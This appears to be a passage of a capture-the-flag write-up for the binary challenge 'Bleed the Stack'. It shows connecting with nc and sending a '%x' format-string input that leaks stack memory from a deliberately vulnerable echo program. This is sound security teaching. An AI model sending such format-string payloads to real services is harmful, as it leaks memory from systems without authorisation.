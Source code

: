 ```yaml
---
pub: true
title: "Bleed the Stack"
link: "https://0x0539.net/play/fangorn/bleedthestack"
description: "An amateur programmer decides that for his hello world program, he will echo whatever you say. Can you find his mistake?"
from: "0x0539"
date: "2023-05-16"
type: "ctf"
tags: ["binex"]
---
```


# Bleed the Stack

<aside>
<a href={link}>{title} @ {from}</a><br/>
An amateur programmer decides that for his hello world program, he will echo whatever you say. Can you find his mistake?
</aside>

## Identifying a vulnerability

This challenge is based around a command-line program served over `netcat`. Passing the challenge url and port to `nc`, the challenge responds with the following
and prompts us for input:

```bash
pls@RUBY ~ > nc challenges.0x0539.net 7070
ADVANCED CHALLENGE :: BLEED THE STACK
*****************************

Test me! Enter your name and I'll print it back to you!
```

We can enter a string value, and the program will respond to our input with our exact input.

Given the challenge's name, it seems likely that this challenge's flag is hidden in the program's call stack - we can test this by sending a hexadecimal format string parameter, `%x`:

```bash
# ...

Test me! Enter your name and I'll print it back to you!
%x %x %x %x %x %x %x %x
40 f7f77620 1 0 1 20656854 73736170 64726f77
```

We get hex values as the response, which means the program is likely assembled from code containing a [format string bug](https://owasp.org/www-community/attacks/Format_string_attack) (I go over
this bug in a little more detail after the challenge walkthrough).

To confirm this, we can convert the hexadecimal values to ASCII, yielding the (malformed) string `@÷÷v [f7f77620] ehTssapdrow` (noting that `[f7f77620]` is invalid as ASCII;
the information here is intended to be read by a CPU and so is not necessarily human-readable text).
